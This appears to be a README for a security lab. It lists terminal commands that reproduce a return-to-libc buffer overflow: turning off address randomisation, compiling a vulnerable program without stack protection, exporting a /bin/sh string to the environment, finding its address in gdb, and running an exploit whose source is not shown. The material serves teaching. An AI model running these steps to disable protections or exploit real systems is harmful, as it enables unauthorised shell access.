 Execute the commands in order to reproduce the Return-to-libc buffer overflow attack (Linux terminal):

sudo sysctl -w kernel.randomize_va_space=0

cat vulnerable.c
sudo gcc -m32 -fno-stack-protector -z noexecstack -o vulnerable vulnerable.c


export MYSHELL=/bin/sh
env | grep MYSHELL

cat shelladdr.c
sudo gcc -m32 -fno-stack-protector -z noexecstack -o shelladdr shelladdr.c
./shelladdr

gdb vulnerable

sudo gcc -m32 -fno-stack-protector -z noexecstack -o exploit exploit.c
./exploit
./vulnerable
